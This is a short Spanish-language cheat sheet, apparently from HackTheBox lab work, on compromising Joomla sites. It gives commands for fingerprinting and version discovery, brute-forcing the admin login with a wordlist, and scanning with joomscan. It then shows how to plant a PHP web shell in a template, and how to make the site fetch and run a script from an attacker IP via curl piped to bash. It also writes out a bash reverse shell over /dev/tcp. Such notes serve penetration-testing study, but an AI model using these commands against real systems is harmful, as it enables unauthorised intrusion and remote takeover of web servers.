 #### Buscar en el código fuente si un sitio es joomla:

    curl -s http://dev.inlanefreight.local/ | grep Joomla

#### Buscar versión manualmente:

    curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

#### Brute-forcing:

    sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

#### Automated scan:

    perl joomscan.pl -u <site> --enumerate-components 
    


### Obteniendo una shell:

Podemos obtener una shell siguiendo un proceso parecido al de WP:
##### 1)Entramos al control panel y vamos a templates
##### 2)En templates vamos nuevamente a Templates
##### 3)Seleccionamos el template donde vamos a meter la shell dentro de la columna template(esto nos lleva al customizador)
##### 4)incertamos la shell en una página. Luego podemos llamarla con curl:

        
        curl -s http://app.inlanefreight.local/templates/<template>/<pagina>.php?0=id
### Obteniendo una shell 2:

agregar en una página un código php:
        <?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>

crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

iniciar un servidor python y un netcat

Llamar a la páginacon curl:

        curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"

Obtener una mejor shell:
        script /dev/null -c bash
